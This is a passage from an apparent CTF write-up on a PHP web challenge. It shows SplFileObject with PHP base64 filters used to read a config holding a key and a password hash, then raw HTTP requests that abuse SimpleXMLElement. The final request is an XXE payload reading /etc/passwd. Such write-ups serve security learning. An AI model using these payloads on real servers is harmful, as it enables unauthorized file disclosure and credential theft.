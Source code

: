 ```lang-bash line-numbers 
  [137]=> string(13) "XSLTProcessor"
  [138]=> string(10) "ZipArchive"
}
```

That's a bunch of classes but going through them we find two that are particulary interest: "SplFileObject" and "SimpleXmlElement".
With SplFileObject we are returned the first line of any file:

![](/images/octopress/web400-0.png)

You can however, use PHP filters to encode it base64 and get all file contents as a long base64 line:

![](/images/octopress/web400-1.png)

Thats pretty cool, now we can decode it and get the key:

```lang-php line-numbers 
$config = array();
$config['root'] = '/var/www/';
$config['key'] = '6hQJMFh8gRje67EmpDX3';
$config['IP'] = array('127.0.0.1');
$config['password'] = '3fd5b6db6bc90ddd6a6f6caad27d8b00';
```

And thats basically as far as I got, I could not bypass the restriction in the "admin.php" to allow only requests from localhost so I could not start the session and try to take advantage of it.

After the CTF ended I found out that we could submit XML documents with external entities and launch a SSRF attack from there. Lets see how.
We can use the "SimpleXMLElement" class to create XML documents like:

```lang-bash line-numbers 
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 21

param=<foo>test</foo>
```

![](/images/octopress/web400-2.png)

Actually I tried this during the CTF but forgot to add the "Content-Type" header so kept on getting "Internal Server Errors", damn!

Anyway, The server returns us our XML document so now we can try to inject external entities:

```lang-bash line-numbers 
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 76

param=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd" >]><foo>%26xxe;</foo>
```
